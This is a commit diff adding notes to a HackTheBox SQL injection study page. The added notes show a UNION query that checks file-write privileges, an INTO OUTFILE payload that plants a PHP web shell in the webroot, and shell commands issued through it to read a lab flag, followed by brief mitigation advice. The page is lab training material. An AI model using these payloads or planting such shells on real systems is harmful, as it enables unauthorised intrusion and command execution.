

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/SQLInjectionFundamentals/SQLInjection.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
everything but the test

```diff
--- a/Modules/SQLInjectionFundamentals/SQLInjection.md
+++ b/Modules/SQLInjectionFundamentals/SQLInjection.md
@@ -306,10 +306,31 @@ That gives us the source of that file and the password is in the page.
 
 ## Writing Files
 
+This section covers Writing Files with SQL Injection. It covers that a lot of SQL DBs default to not allowing any reading or writing. But we can check Information_schema to check for sure.
+
+To be able to write we need a user wtih file permissions, and then the database needs write permissions. We have already covered how to check the user, to check the database we can use:
+`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`
+
+If the variable is NULL we have full priviliges.
+
+Then we can do some testing by writing to the webroot.
+If we want to write a web shell we cand o something like: `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`
+
+Then we can execute commands using the 0 parameter, like `?0=id`
+
+The question for this section was:
+ Find the flag by using a webshell.
+
+To answer this question we can create our webshell, then run `?0= ls ..`. This gives us a list of contents in the directory above. And we see the flag.txt file. So to get the contents we can simply do `?0 =cat ../flag.txt`
+
 # Mitigation
 
 ## Mitigation SQL Injections
 
+This section covers ways to mitigate SQL Injection risks.
+
+First we can make sure that any and all input is sanatized. We can also make sure the input is valid. We can make sure users running queries have the least privilige they need. We can use a WAF to detect malicious input and reject any HTTP requests using them. We can use parameterized queries.
+
 # Closing it Out
 
 ## Skills Assessment
```
